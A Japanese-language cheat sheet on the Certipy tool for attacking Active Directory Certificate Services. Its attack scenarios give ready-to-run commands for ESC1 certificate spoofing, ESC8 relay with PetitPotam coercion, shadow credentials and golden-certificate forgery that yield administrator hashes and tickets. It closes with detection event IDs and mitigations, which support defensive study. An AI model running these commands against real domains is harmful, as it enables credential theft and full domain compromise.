





## TL;DR

`Certipy` は Active Directory 証明書サービス（ADCS）を攻撃するための Python ツールです。列挙・悪用・認証をひとつのツールキットに統合しており、脆弱な証明書テンプレートを発見し、それを悪用して任意のドメインアカウント（DA を含む）の証明書を取得し、その証明書で認証して NT ハッシュや TGT を入手できます。

---

## できること

| 機能 | 詳細 |
|---|---|
| ADCS 列挙 | LDAP 経由で CA・テンプレート・権限を列挙 |
| 脆弱テンプレートの検出 | ESC1〜ESC16 の誤設定を自動フラグ |
| 証明書のリクエスト（ESC1） | 偽装した UPN（例：Administrator）で証明書を要求 |
| NTLM を ADCS HTTP にリレー（ESC8） | マシンアカウントの認証を `/certsrv` エンドポイントにリレー |
| PKINIT 認証 | `.pfx` 証明書を使って KDC に認証 |
| UnPAC-the-hash | PKINIT AS-REP からアカウントの NT ハッシュを抽出 |
| シャドウクレデンシャル | `msDS-KeyCredentialLink` にキーを書き込み TGT/ハッシュを取得 |
| 証明書の偽造 | 盗んだ CA 秘密鍵でオフライン証明書を発行 |
| ゴールデン証明書 | CA キーをエクスポートして任意の証明書をオフライン発行 |
| Certipy リレー | ESC8 用の組み込みリレーサーバー（Responder/ntlmrelayx 不要） |
| アカウントへのバックドア | シャドウクレデンシャルによる証明書ベースの永続化 |

---

## できないこと

| 制限 | 理由 |
|---|---|
| LDAP/Kerberos なしでの動作 | TCP 389（LDAP）と TCP 88（Kerberos）が必要 |
| 管理者承認が必要なテンプレートの悪用 | 証明書発行前に CA が要求を拒否する |
| パスワードのクラック | ハッシュ取得のみ — クラックは別途実施 |
| 認証情報なしでの列挙（通常） | LDAP バインドには有効なドメイン認証情報が必要 |
| CA 秘密鍵なしでの証明書偽造 | 偽造には CA 秘密鍵の事前取得が必要 |
| EPA が有効な ADCS Web 登録への ESC8 | Extended Protection for Authentication がリレーをブロック |
| Web 登録が未設定の ADCS への ESC8 | ESC8 には `/certsrv` HTTP エンドポイントの稼働が必要 |

---

## コアコンセプト

### PKINIT — 証明書ベースの Kerberos 認証



### UnPAC-the-hash — パスワードなしで NT ハッシュを取得

PKINIT で認証すると、KDC は暗号化されたセッションキーにアカウントの NT ハッシュを埋め込みます。Certipy はこれを復号して生の NT ハッシュを取得します。平文パスワードを知らなくても Pass-the-Hash に使用できます。

---

## 攻撃シナリオ 1：ESC1 — UPN スプーフィング

**必要条件：** 証明書テンプレートがリクエスト者による カスタム SAN（Subject Alternative Name）の指定を管理者承認なしで許可している。



```bash
# ステップ 1：脆弱なテンプレートを探す
certipy find -u 'jsmith@corp.local' -p 'Password1' -dc-ip 10.10.10.100 -vulnerable

# ステップ 2：Administrator の UPN で証明書を要求
certipy req -u 'jsmith@corp.local' -p 'Password1' \
  -ca 'corp-CA' \
  -template 'VulnTemplate' \
  -upn 'administrator@corp.local' \
  -dc-ip 10.10.10.100

# ステップ 3：証明書で認証して NT ハッシュを取得
certipy auth -pfx administrator.pfx -dc-ip 10.10.10.100
```

出力例：
```
[*] Got hash for 'administrator@corp.local': aad3b435...:8846f7ea...
```

---

## 攻撃シナリオ 2：ESC8 — ADCS Web 登録へのリレー

**必要条件：** ADCS Web 登録（`/certsrv`）が稼働中、EPA が未設定、マシンアカウントの認証を強制できる。



```bash
# ターミナル 1：Certipy リレーリスナーを起動
certipy relay -ca 10.10.10.100 -template DomainController

# ターミナル 2：DC に攻撃者への認証を強制（例：PetitPotam）
python3 PetitPotam.py -u 'jsmith' -p 'Password1' <ATTACKER_IP> <DC_IP>

# リレー完了後、certipy が dc.pfx を保存 → 認証
certipy auth -pfx dc.pfx -dc-ip 10.10.10.100
```

---

## 攻撃シナリオ 3：シャドウクレデンシャル

**必要条件：** 対象アカウントの `msDS-KeyCredentialLink` 属性への書き込み権限（GenericWrite・GenericAll・WriteProperty など）。



```bash
# オートモード：シャドウクレデンシャルの書き込み・認証・クリーンアップを一括実行
certipy shadow auto -u 'jsmith@corp.local' -p 'Password1' \
  -account 'targetuser' \
  -dc-ip 10.10.10.100

# 手動：書き込みのみ
certipy shadow add -u 'jsmith@corp.local' -p 'Password1' \
  -account 'targetuser' \
  -dc-ip 10.10.10.100

# 認証
certipy auth -pfx targetuser.pfx -dc-ip 10.10.10.100
```

---

## 攻撃シナリオ 4：証明書偽造（ゴールデン証明書）

**必要条件：** CA 秘密鍵を取得済み（`certipy ca -backup` や `secretsdump` 経由など）。



```bash
# ステップ 1：CA 証明書とキーをエクスポート（CA 管理者 / DA 権限が必要）
certipy ca -backup -u 'administrator@corp.local' -hashes :<NT_HASH> \
  -ca 'corp-CA' -dc-ip 10.10.10.100
# 出力：corp-CA.pfx

# ステップ 2：任意のアカウントの証明書を完全オフラインで偽造
certipy forge -ca-pfx 'corp-CA.pfx' \
  -upn 'administrator@corp.local' \
  -subject 'CN=Administrator,CN=Users,DC=corp,DC=local'
# 出力：administrator_forged.pfx

# ステップ 3：認証
certipy auth -pfx administrator_forged.pfx -dc-ip 10.10.10.100
```

> 偽造証明書は CA の有効期間中ずっと有効です。対策には CA キーのローテーションが必要です。

---

## よく使うコマンド

### すべてを列挙する

```bash
certipy find -u 'user@corp.local' -p 'Password1' -dc-ip 10.10.10.100

# 脆弱なテンプレート / 設定のみを表示
certipy find -u 'user@corp.local' -p 'Password1' -dc-ip 10.10.10.100 -vulnerable

# JSON 出力（手動分析に便利）
certipy find -u 'user@corp.local' -p 'Password1' -dc-ip 10.10.10.100 -json
```

### 証明書をリクエストする

```bash
# ESC1 — カスタム UPN を指定
certipy req -u 'user@corp.local' -p 'Password1' \
  -ca 'corp-CA' -template 'VulnTemplate' \
  -upn 'administrator@corp.local' \
  -dc-ip 10.10.10.100

# リクエスト認証に Pass-the-Hash を使用
certipy req -u 'user@corp.local' -hashes :<NT_HASH> \
  -ca 'corp-CA' -template 'User' \
  -dc-ip 10.10.10.100
```

### 証明書で認証する

```bash
# PKINIT で TGT + NT ハッシュを取得
certipy auth -pfx administrator.pfx -dc-ip 10.10.10.100

# ドメインを明示指定（pfx にドメイン情報が埋め込まれていない場合）
certipy auth -pfx administrator.pfx -domain corp.local -dc-ip 10.10.10.100
```

### CA 管理

```bash
# CA 証明書と秘密鍵をバックアップ（エクスポート）
certipy ca -backup -u 'administrator@corp.local' -p 'Password1' \
  -ca 'corp-CA' -dc-ip 10.10.10.100

# CA オフィサーとマネージャーを一覧表示
certipy ca -list-officers -u 'user@corp.local' -p 'Password1' \
  -ca 'corp-CA' -dc-ip 10.10.10.100
```

---

## 主要オプション

| フラグ | 説明 |
|---|---|
| `-u <user@domain>` | ユーザー名 |
| `-p <password>` | パスワード |
| `-hashes <LM:NT>` | NTLM ハッシュ認証 |
| `-k` | Kerberos（ccache）認証 |
| `-dc-ip <ip>` | ドメインコントローラーの IP |
| `-ca <name>` | 対象 CA 名 |
| `-template <name>` | 証明書テンプレート名 |
| `-upn <upn>` | SAN に埋め込む UPN（ESC1） |
| `-pfx <file>` | 認証に使用する PFX/P12 証明書ファイル |
| `-vulnerable` | `find` で脆弱な項目のみ表示 |
| `-json` | JSON 形式で出力 |
| `-stdout` | ハッシュ/TGT を標準出力に表示 |
| `-ns <ip>` | DNS サーバー IP（名前解決用） |

---

## Certipy と類似ツールの比較

| ツール | 主な用途 | 列挙 | 悪用 | リレー |
|---|---|---|---|---|
| `Certipy` | ADCS フルアタックチェーン | あり（LDAP） | ESC1〜ESC16 | ESC8 組み込み |
| `Certify`（C#） | ADCS 列挙 + リクエスト | あり（LDAP） | ESC1〜ESC4 | なし |
| `ntlmrelayx.py` | NTLM リレー（ADCS 含む） | なし | ESC8 のみ | あり（マルチターゲット） |
| `PKINITtools` | PKINIT + UnPAC-the-hash | なし | 認証のみ | なし |
| `PassTheCert` | 証明書ベース認証 | なし | 認証のみ | なし |

**代替ツールを選ぶ場合：**
- Python なしで Windows から実行したい → `Certify`（C# の .NET バイナリ）
- ADCS 以外にも複数のターゲットへのリレーが必要 → `ntlmrelayx.py`
- PKINIT 認証だけが必要 → `PKINITtools`

---

## 検知と防御

### ブルーチームの指標

| イベント ID | ソース | 注目するポイント |
|---|---|---|
| 4886 | Security | 証明書のリクエスト — リクエスト元 IP がアカウントの想定ホストと一致するか確認 |
| 4887 | Security | 証明書の発行 — SAN の UPN がリクエスト者と異なる場合はフラグ |
| 5136 | Security | AD オブジェクトの変更 — `msDS-KeyCredentialLink` の変更（シャドウクレデンシャル） |
| 4624 | Security | 証明書発行直後に想定外のホストから来るネットワークログオン（タイプ 3） |

アカウントが*自分自身とは異なる* UPN の証明書をリクエストしている（イベント 4887）のが ESC1 の最も強力な指標です。

### 対策

```powershell
# 脆弱なテンプレートから CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT を削除
# 証明書テンプレートコンソール（certtmpl.msc）:
# → テンプレートのプロパティ → [サブジェクト名] タブ
# → 「要求に含める」のチェックを外す

# 重要なテンプレートに管理者承認を有効化
# → テンプレートのプロパティ → [発行の要件] タブ
# → 「CA 証明書マネージャーの承認」にチェック

# /certsrv をホストする IIS に EPA を有効化
# → IIS マネージャー → certsrv → 認証 → Windows 認証 → 詳細設定
# → 拡張保護：必須

# msDS-KeyCredentialLink の変更を監査
# オブジェクトアクセス監査を有効化してこの属性のイベント 5136 を監視
```

- ADCS Web 登録に **EPA** を有効化して ESC8 リレーを防止
- 不要なテンプレートから **`CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT`** を削除
- 高権限テンプレートに**管理者承認**を設定
- SAN が不一致の証明書発行を示す**イベント 4887** を監視
- **Microsoft Defender for Identity（MDI）** を導入 — シャドウクレデンシャルや異常な証明書発行を検知
- **ADCS Web 登録エンドポイント**（`/certsrv`）のネットワーク露出を最小化

---

## 参考資料

- [Certipy — GitHub (ly4k)](https://github.com/ly4k/Certipy)
- [Certipy 4.0 ブログ記事 — ly4k](https://research.ifcr.dk/certipy-4-0-esc9-esc10-bloodhound-gui-new-authentication-and-request-methods-and-more-7237d88061f7)
- [Certified Pre-Owned — Will Schroeder & Lee Christensen](https://specterops.io/assets/resources/Certified_Pre-Owned.pdf)
- [MITRE ATT&CK — T1649 認証証明書の窃取または偽造](https://attack.mitre.org/techniques/T1649/)
